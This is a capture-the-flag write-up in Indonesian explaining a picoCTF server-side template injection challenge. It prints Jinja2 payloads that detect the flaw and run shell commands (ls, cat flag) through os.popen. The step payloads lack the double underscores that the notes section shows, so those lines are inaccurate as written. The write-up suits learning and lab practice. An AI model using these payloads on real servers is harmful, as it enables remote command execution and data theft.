



# 🧪 picoCTF - SSTI (Server-Side Template Injection)

## 📝 Deskripsi Soal

> I made a cool website where you can announce whatever you want! Try it out!  
> I heard templating is a cool and modular way to build web apps! Check out my website here!

SSTI (Server-Side Template Injection) adalah celah keamanan yang memungkinkan penyerang menyuntikkan ekspresi template ke dalam sistem yang kemudian dievaluasi/dieksekusi oleh server. Ini biasa ditemukan pada web yang menggunakan template engine seperti Jinja2 (Python), Twig (PHP), atau lainnya.

---

## 🔍 Langkah Penyelesaian

1. Cek apakah web rentan SSTI dengan payload sederhana:



``` bash
{{7*7}}
```

Jika hasilnya adalah:

49


Maka website dapat dieksploitasi karena input kita dieksekusi di sisi server.



2. Eksekusi perintah Linux untuk melihat isi direktori:

```python
{{ config.class.init.globals['os'].popen('ls').read() }}
```

Output akan menampilkan daftar file dalam folder kerja aplikasi.



3. Untuk membaca isi file flag:

```python
{{ config.class.init.globals['os'].popen('cat flag').read() }}
```

Perintah ini akan mencoba menampilkan isi file bernama flag di direktori tersebut.

---

## 💡 Catatan Tambahan

- Ekspresi `config.__class__.__init__.__globals__` adalah salah satu cara untuk mengakses built-in module dalam template engine Jinja2, memungkinkan kita memanggil os.popen() dan mengeksekusi command Linux.

---

## ⚠️ Disclaimer

Write-up ini dibuat berdasarkan pemahaman pribadi dalam proses belajar. Jika terdapat kekeliruan atau kekurangan, mohon dimaklumi 🙏  


